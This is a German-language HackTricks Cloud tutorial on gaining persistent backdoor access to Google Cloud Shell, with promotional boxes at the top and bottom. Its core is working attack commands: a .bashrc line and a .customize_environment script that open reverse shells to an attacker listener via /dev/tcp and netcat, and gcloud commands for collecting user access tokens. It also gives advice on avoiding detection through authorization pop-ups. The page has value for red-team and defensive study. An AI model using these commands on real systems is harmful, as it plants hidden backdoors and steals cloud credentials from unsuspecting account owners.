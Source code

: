 # GCP - Cloud Shell Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **einreichen.**
*
*
*
* GitHub-Repositories.

</details>

## Cloud Shell

Für weitere Informationen siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistente Hintertür

[**Google Cloud Shell**](https://cloud.google.com/shell/) bietet Ihnen den Zugriff auf die Befehlszeile für Ihre Cloud-Ressourcen direkt über Ihren Browser ohne anfallende Kosten.

Sie können auf die Google Cloud Shell über die **Webkonsole** oder durch Ausführen von **`gcloud cloud-shell ssh`** zugreifen.

Diese Konsole bietet Angreifern einige interessante Möglichkeiten:

1. **Jeder Google-Benutzer mit Zugriff auf Google Cloud** hat Zugriff auf eine vollständig authentifizierte Cloud Shell-Instanz (auch Service-Konten können dies, selbst wenn sie Eigentümer der Organisation sind).
2. Diese Instanz wird **ihren Home-Verzeichnis für mindestens 120 Tage beibehalten**, wenn keine Aktivität stattfindet.
3. Es gibt **keine Möglichkeiten für eine Organisation, die Aktivität dieser Instanz zu überwachen**.

Das bedeutet im Grunde genommen, dass ein Angreifer eine Hintertür im Home-Verzeichnis des Benutzers platzieren kann und solange der Benutzer mindestens alle 120 Tage eine Verbindung zur GC Shell herstellt, wird die Hintertür überleben und der Angreifer wird jedes Mal eine Shell erhalten, wenn sie ausgeführt wird, einfach durch:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Es gibt eine weitere Datei im Home-Verzeichnis namens **`.customize_environment`**, die, wenn sie existiert, **jedes Mal ausgeführt wird**, wenn der Benutzer auf die **Cloud Shell** zugreift (wie bei der vorherigen Technik). Fügen Sie einfach die zuvor verwendete Hintertür oder eine ähnliche ein, um die Persistenz aufrechtzuerhalten, solange der Benutzer die Cloud Shell "häufig" verwendet:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es ist wichtig zu beachten, dass beim **ersten Mal, wenn eine Authentifizierung erfordernde Aktion ausgeführt wird**, ein Pop-up-Autorisierungsfenster im Browser des Benutzers erscheint. Dieses Fenster muss akzeptiert werden, bevor der Befehl ausgeführt werden kann. Wenn ein unerwartetes Pop-up erscheint, könnte dies Misstrauen erregen und potenziell die verwendete Persistenzmethode gefährden.
{% endhint %}

Dies ist das Pop-up, das beim Ausführen von `gcloud projects list` aus der Cloud Shell (als Angreifer) in der Browsersitzung des Benutzers angezeigt wird:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer jedoch die Cloud Shell aktiv verwendet hat, wird das Pop-up nicht angezeigt und Sie können **Benutzertoken sammeln mit**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Wie die SSH-Verbindung hergestellt wird

Grundsätzlich werden diese 3 API-Aufrufe verwendet:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (fordert Sie auf, Ihren öffentlichen Schlüssel hinzuzufügen, den Sie lokal erstellt haben)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (fordert Sie auf, die Instanz zu starten)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (gibt Ihnen die IP des Google Cloud Shell)

Aber weitere Informationen finden Sie unter [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referenzen

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* GitHub-Repositories.

</details>
